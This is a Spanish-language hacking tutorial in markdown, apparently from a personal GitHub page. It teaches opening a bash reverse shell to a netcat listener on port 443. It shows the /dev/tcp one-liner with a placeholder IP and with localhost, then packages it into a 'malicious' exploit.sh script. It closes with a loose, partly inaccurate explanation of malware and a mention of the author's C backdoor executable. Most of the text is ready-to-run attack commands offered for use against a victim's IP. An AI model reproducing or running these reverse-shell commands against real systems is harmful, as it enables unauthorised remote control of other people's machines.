 ```yaml
---
title: ReverShells & Malware
published: true
---
```




**Hola** hoy estaremos hablando de pentesting web, hablaremos sobre:
* **Creacion de ReverseShell comandos.**
* **Como estan compuestos los payloads exploits malware para windows.**
<br>

Vale primero que es una **ReverseShell**, lo explicara en un lenguaje brusco, una ReverShell es aquella que te permite
ejecutar comandos en una pc que no es tu dominio, es decir una ip el cual es la de la victima conectada a un hosts,
donde el hosts es tu equipo y te permite ejecucion remota de comandos.

[Puedes encontrar mas informacion aqui](https://www.google.com/search?q=ReverseShell&client=firefox-b-d&sxsrf=ALiCzsbKFcBidTADzj_JE7x-ksfIvwVUpA%3A1658946186694&ei=ioLhYpz9KeezqtsPnd-L8A0&ved=0ahUKEwic6qKR2Jn5AhXnmWoFHZ3vAt4Q4dUDCA0&uact=5&oq=ReverseShell&gs_lcp=Cgdnd3Mtd2l6EAMyBwgjELECECcyBwgjELECECcyBwgjELECECcyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEM6BwgAEEcQsAM6BAguECc6BAgjECc6CwgAEIAEELEDEIMBOgcIIxDqAhAnOggIABCxAxCDAToFCAAQgAQ6BAgAEAM6BggjECcQEzoKCAAQsQMQgwEQQzoKCC4QsQMQgwEQQzoGCAAQChBDOggIABCABBCxAzoICC4QgAQQsQM6BwgAEIAEEAo6BwgAEAoQywE6BQgAEMsBSgQIQRgASgQIRhgAUM4EWPkxYJkzaAhwAXgBgAHzAYgBrBqSAQYwLjE0LjSYAQCgAQGwAQrIAQjAAQE&sclient=gws-wiz).
<br>


-------
<br>

<center><font color="yellow">[<font color="red">*</font>]</font><font color="green"> Empezaremos con las pruebas de ReverseShell</font></center>
<br>
<font color="white">--> los programas a utilizar para la ReverseShell es bash, netcat, si usas linux es probable que ya los tengas instalados, 
en el caso contrario ejecuta:</font>
<br>

--> Para <font color="yellow"> Linux </font>:

```bash
sudo apt-get install netcat bash -y
```

--> Para <font color="yellow">arch-linux</font>:

```bash
pacman -Sy netcat bash
```

<br>

<p><font color="yellow">[<font color="red">*</font>]</font><font color="red"> Importante </font></p>
<ph>Para estas bruebas si lo vas a hacer desde terminal, tienes que utilizar bash y no zsh por que te dara
errores, claro si quieres puedes probar de zsh y conocer los errores pero si quieres omitir esto, entonces solo ejecutas
el siguiente comando:</ph>

```bash
bash
```


<img src="screenshots/screen_bash.jpg">

<p><font color="yellow">[↑]</font> Como puede ver ya no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script mailicioso.</p>
<br>

---
<br>
<p><font color="yellow">[*]</font> Empezamos poniendonos en escucha por el puerto 443 de netcat : </p>

```bash
nc -nvlp 443
```

<p><font color="yellow">[*]</font> Miramos que ip tenemos con el comando ifconfig :</p>
```bash
ifconfig
```
<img src="screenshots/ifconfig.jpg">

<p><font color="yellow">[↑]</font> Como pueden ver tengo la ip 127.0.0.1</p>
<br>
<p><font color="yellow">[*]</font> Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablarnos la coneccion desde otra
terminal por que la primera esta siendo ocupada por netcat entonces recuerden ejecutar el comando <b>bash</b> antes de entablar
la coneccion.</p>

<br>

<p><font color="yellow">[*]</font> Para entablar la coneccion hacemos el siguiente comando :</p>

```bash
bash
```
```bash
bash -i >& /dev/tcp/TU-IP/443/ 0>&1
```
<br>
<img src='screenshots/reverse.jpg'>

<p><font color="yellow">[↑]</font> Como pueden ver se me abrio un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.</p>

-------
<br>

<p><font color="yellow">[*]</font> Ahora pasaremos a desarrollar un <b>script malicioso en bash</b>, para ello aremos los mismo solo que esta ves el comando : 
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:</p>

<br>

```bash
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

<p><font color="yellow">[*]</font> Lo que desarrolle con ese comando fue hacer un script en bash para poder entablarme una coneccion pueden hacer <b>ls</b> y veran un
archivo llamado <b>exploit.sh</b> y de paso otorgarle permiso de ejecucion.</p>

No se ofusque si no entiende la anterior  linea de codigo simplemente lo que hace es hacer un archivo con `touch` darle permisos
con de ejecucion `chmod +x exploit.sh` y meterle adentro con `>>` el codigo :

```bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```

<br>
<ph><font color="yellow">[*]</font> Pueden hacerlo manualmente con los siquientes comandos :</ph>

```bash
touch exploit.sh
```
```bash
chmod +x exploit.sh
```
<br>

Abren el archivo creado y coloca la siguiente linea : `bash -i >& /dev/tcp/SU-IP/443 0>&1`
<br>
<ph><font color="yellow">[*]</font> Una vez ya echo el archivo, pongace en escucha por el puerto <b>443</b> con netcat. Recuerde
que con el comando <q><b>nc -nlvp 443</b></q> nos poniamos en escucha por el puerto <b>433</b> este puerto puede ser modificado siempre
y cuando el puerto no este en uso, y claramente en el exploit o codigo ponga su respectivo puerto.ﾠ</ph>

ﾠ
<ph><font color="yellow">[*]</font> Nos ponemos en escucha con netcat</ph>
```#!/bin/bash
nc -nlvp 443
```
<br>
<p><font color="yellow">[*]</font> Y ejecutamos el archivo creado</p>
```#!/bin/bash
./exploit.sh
```

<img src="screenshots/final.jpg">

<p><font color="yellow">[↑]</font><b> Ahora como puden ver tengo una reverse shell</b></p>
<br>
<p><font color="yellow">[*]</font> Lo mas comodo de hacerlo por script es que se puden ejecutar el archivo teniendo la zsh y ahorrandose el comando `bash` y
ejecutar el archivo este se debe a la extension <b>"sh"</b> que tiene el archivo.</p>
<br>
<p>Vale ya sabes al menos cosas basicas de como entablarte un reverse shell luego voy a hacer que entiendas como
ganar acceso a un sistema.<b>http,https.</b></p>

---

<br>
<center><font color="green">¿Como estan desarollados los backdoor, exploits, payloads y malware?</font></center>
<br>
<p>Te lo voy a explicar en un lenguaje brusco es decir a mi manera para que puedas entenderlo mas facil.
Un archivo malicioso ya puede ser <font color="red">malware exploit backdoor-(Puerta tracera) payloads</font>, no son mas que archivos en
binario que si recuerdas es lenguaje de la computadora que usa para poder operar. estos archivos puden ser
tambien escritos en hexadecimal para poder luego con un compilador pasarlo a binario.
para esto existen compiladores que te ayudan a crear este tipo de archivo el ultimo
exe que hice fue un archivo escrito en <font color="yellow">C</font> ganabas acceso al sistema con solo abrirlo, pero este no es el caso de hablar de esto.
si quieres aprender a desarrollar un .exe debes aprender lenguaje <font color="yellow">C</font> y con ayuda de una herramienta poder compilarlos
yo utilizaba code block, asi y poder luego crearte archivos .exe a tu favor.</p>
<br>
